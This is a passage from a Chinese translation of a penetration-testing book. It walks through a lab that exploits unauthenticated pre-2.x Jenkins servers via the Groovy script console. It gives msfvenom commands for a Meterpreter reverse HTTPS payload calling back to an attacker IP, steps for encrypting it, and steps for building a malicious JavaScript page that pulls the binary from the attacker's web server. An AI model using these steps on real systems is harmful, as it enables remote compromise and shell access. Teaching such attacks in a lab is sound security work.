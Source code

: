 ![](../images/chapter_5/5-13.png)
 
*注意：最新版本的 Jenkins 中不存在此漏洞。 2.x 之前的版本在默认情况下是易受攻击的，因为它们未启用 CSRF 保护（允许对脚本进行无验证调用），并且未启用身份验证。*


**完整的 Jenkins 漏洞利用实验**：

- 我们将构建一个 Jenkins Windows 服务器，以便我们可以复现此攻击。
- 在本地网络上安装具有桥接接口的 Windows 虚拟机。
- 在 Windows 系统上，下载并安装 JAVA JDK8。
- 下载  Jenkins war 包:
    - http://mirrors.jenkins.io/war-stable/1.651.2/ 
- 启动 Jenkins :
    - java -jar jenkins.war 
- 浏览器打开 Jenkins:
    - http://<Jenkins_IP>:8080/
- 测试 Groovy 脚本控制台:
    - http://<Jenkins_IP>:8080/script

在 THP Kali 虚拟机上利用 Jenkins：
> 译者注:专门为本书开发的集成了所有环境的 Kali 虚拟机，本书第一章有介绍。THP 就是 The Hacker Playbook,本书的英文简称。<br>
- 下载 THP Jenkins 漏洞利用工具（ http://bit.ly/2IUG8cs ）。
- 要执行该实验，我们首先需要创建一个 Meterpreter payload：
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_IP> LPORT=8080 -f exe > badware.exe
```
- 加密我们的 Meterpreter 二进制文件：
```shell
cd /opt/generateJenkinsExploit
python3 ./generateJenkinsExploit.py -e badware.exe
```
- 创建我们的恶意 JavaScript 页面命名为`badware.html`：
```shell
python3 ./generateJenkinsExploit.py -p http://<attacker_IP>/badware.exe.encrypted > badware.html
```
- 将加密的二进制和恶意 JavaScript 页面都移动到 Web 目录:
```shell
mv badware.html /var/www/html/
mv badware.exe.encrypted /var/www/html/
```
